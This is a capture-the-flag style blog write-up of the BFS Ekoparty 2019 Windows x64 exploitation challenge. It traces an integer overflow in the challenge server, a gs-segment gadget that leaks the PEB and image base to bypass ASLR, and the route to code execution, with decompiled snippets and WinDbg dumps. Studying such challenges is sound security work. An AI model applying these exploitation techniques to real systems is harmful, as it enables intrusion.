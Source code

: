 ```yaml
---
layout: post
title:  "BFS Ekoparty 2019 Exploitation Challenge - Override Banking Restrictions to get US Dollars"
date:   2019-10-27-R 3:48:10 -0700
categories: [security]
---
```


# FROM CRASH TO CODE EXECUTION

this is my first time giving a try into a windows x64 bits , and challenges offered by blue frost security

I've decided to give the [2019 BFS Exploitation Challenge](https://labs.bluefrostsecurity.de/blog/2019/09/07/bfs-ekoparty-2019-exploitation-challenge/) a try. It is a Windows 64 bit executable\
for which an exploit is expected to work under Windows 10 Redstone 6 

The Rules

1. Bypass ASLR remotely
2. 64-bit version exploitation
3. Remote Execution 


# Inital Steps 

we were given a windows binary only . this made me think, I cannot use any fuzzing technique because I dont know if it's local or remote . let's try doing some reverse engineering before, So I can understand what it is really doing. 



Navigating through the main function , we notice that it is a remote application which listen to `54321`


![server](/static/img/05/server.png?raw=true)


# Identifying the Vulnerability


by disassembly the function , it is obvious that some checks need to bypassed in order to send send our payload correctly

![checks](/static/img/05/checks.png?raw=true)


1. if ( v6 == 16i64 ) 
2. if ( *(_QWORD *)buf == '0x393130326F6B45' ) 
4.	strcpy(buf, "Eko2019");   
5. if ( size_data <= 512 )
6. if ( (signed int)size_data % 8 )


the first validation our application is checking if our payload is equal to 16 bytes , then if `buf` is equal to `0x393130326F6B45` which trasnalte into `9102okE` in hex. there is a strcpy that copy at the end of our payload `Eko2019` , but we also have a size data validation which\
we cannot send more than 512 bytes , and it needs to be aligned correctly for 8 bytes. meaning we could send `8,16,24` so on

the "jle" instruction indicates a signed integer comparison, but later passed as unsigned which lead us an integer overflow  

![checks](/static/img/05/integer_overflow.png?raw=true)



after we successfully send a bigger payload, I notice it crashes after sending `229 bytes` , but before that there is a instruction `lea     rcx, unk_7FF6A8A9E520`, but what `unk_7FF6A8A9E520` is holding or doing?  after inspectioning deeper about this `unk_7FF6A8A9E520` . we found there is an array with an offset of `256` with this structure 

![array_ret](/static/img/05/array_ret.png?raw=true)

the function`sub_7FF6A8A91000` will return our `byte + 488B01C3C3C3C3h` in this case `41 48 8B 01 C3 C3 C3 C3`


this value will basically be used in the `WriteProcessMemory(v2, sub_7FF7DD111000, &Buffer, 8ui64, &NumberOfBytesWritten);` as buffer these to the function `sub_7FF6A8A91000` as instructions allowing to control what we can execute when we reach it.


![overwrite](/static/img/05/overwrite.png?raw=true)

we could see `rax , and rcx` was overwritten , but however `rax` was overwritten only one byte from the lower bytes, and `rcx` overwrite completely causing an access violation  


```asm
.text:00007FF7DD111000 arg_0= qword ptr  8
.text:00007FF7DD111000
.text:00007FF7DD111000 db      42h
.text:00007FF7DD111000 mov     rax, [rcx]
.text:00007FF7DD111004 retn
```

why  does this happen?

there's a reason

1. because of the value of the pointer of RCX that you control


# Strategy

In order to bypass ASLR, we need to cause the server to leak an address that belongs to
its process space. Fortunately, there is a call to the `send()` function , which sends
8 bytes of data, so exactly the size of a pointer in 64 bit land. That should serve our purpose just fine.

```c
          qword_7FF7DD11D4E0 = printf(aRemoteMessageI, (unsigned int)counter_conection, &Dst);
          ++counter_conection;
          Buffer = what_the_heck_do(array[byte % -256]);
          v2 = GetCurrentProcess();
          WriteProcessMemory(v2, sub_7FF7DD111000, &Buffer, 8ui64, &NumberOfBytesWritten);
          *(_QWORD *)v3 = sub_7FF7DD111000(v9);
          send(s, v3, 8, 0);
          result = 1i64;
```

The strategy is getting control of the "byte" variable Luckily, it is a stack variable adjacent
to the "size_data[512]" other than the default one at index 62 (0x3e).


I wrote a simple script to find gadgets in order to leak data from the running process

`for i in $(cat file); do echo -e "\n$i" && rasm2 -b -D $i;done`

after sometime research how I can read some information about the running process . I found what I could read via `gs`(segment register) because of x64 bits


```asm
0x65488B01C3C3C3C3
0x00000000   4                 65488b01  mov rax, qword gs:[rcx]
0x00000004   1                       c3  ret
0x00000005   1                       c3  ret
0x00000006   1                       c3  ret
0x00000007   1                       c3  ret
```

So this special register which could lead us to read `_PEB` , and our `peb` offset is at `+0x060 ProcessEnvironmentBlock : Ptr64 _PEB` via `dt ntdll!_TEB`

# preparing our exploit 


Leaking the `PEB` 

1. 0x65 = mov rax, qword gs:[rcx]
2. 0x060 = _PEB 

```asm
WINDBG>dt ntdll!_TEB
   +0x000 NtTib            : _NT_TIB
   +0x038 EnvironmentPointer : Ptr64 Void
   +0x040 ClientId         : _CLIENT_ID
   +0x050 ActiveRpcHandle  : Ptr64 Void
   +0x058 ThreadLocalStoragePointer : Ptr64 Void
   +0x060 ProcessEnvironmentBlock : Ptr64 _PEB
   +0x068 LastErrorValue   : Uint4B
   +0x06c CountOfOwnedCriticalSections : Uint4B
   +0x070 CsrClientThread  : Ptr64 Void
   +0x078 Win32ThreadInfo  : Ptr64 Void
   +0x080 User32Reserved   : [26] Uint4B
   ```
in order to make our exploit to leak the data . we need to find a way to derefence `rcx` with our `_PEB` offset\
So we can leak our PEB address to start leaking data to bypass ASLR

![leak_peb](/static/img/05/leak_peb.png?raw=true)


Leaking the `ImageBaseAddress` 

```asm
WINDBG>dt ntdll!_PEB
   +0x000 InheritedAddressSpace : UChar
   +0x001 ReadImageFileExecOptions : UChar
   +0x002 BeingDebugged    : UChar
   +0x003 BitField         : UChar
   +0x003 ImageUsesLargePages : Pos 0, 1 Bit
   +0x003 IsProtectedProcess : Pos 1, 1 Bit
   +0x003 IsImageDynamicallyRelocated : Pos 2, 1 Bit
   +0x003 SkipPatchingUser32Forwarders : Pos 3, 1 Bit
   +0x003 IsPackagedProcess : Pos 4, 1 Bit
   +0x003 IsAppContainer   : Pos 5, 1 Bit
   +0x003 IsProtectedProcessLight : Pos 6, 1 Bit
   +0x003 IsLongPathAwareProcess : Pos 7, 1 Bit
   +0x004 Padding0         : [4] UChar
   +0x008 Mutant           : Ptr64 Void
   +0x010 ImageBaseAddress : Ptr64 Void this our value we want to leak now 
   +0x018 Ldr              : Ptr64 _PEB_LDR_DATA
   +0x020 ProcessParameters : Ptr64 _RTL_USER_PROCESS_PARAMETERS
   +0x028 SubSystemData    : Ptr64 Void
   +0x030 ProcessHeap      : Ptr64 Void
   +0x038 FastPebLock      : Ptr64 _RTL_CRITICAL_SECTION
   +0x040 AtlThunkSListPtr : Ptr64 _SLIST_HEADER
   +0x048 IFEOKey          : Ptr64 Void
   +0x050 CrossProcessFlags : Uint4B
   ....snip
```

Code execution 

![overwrite](/static/img/05/zeroday.png?raw=true)
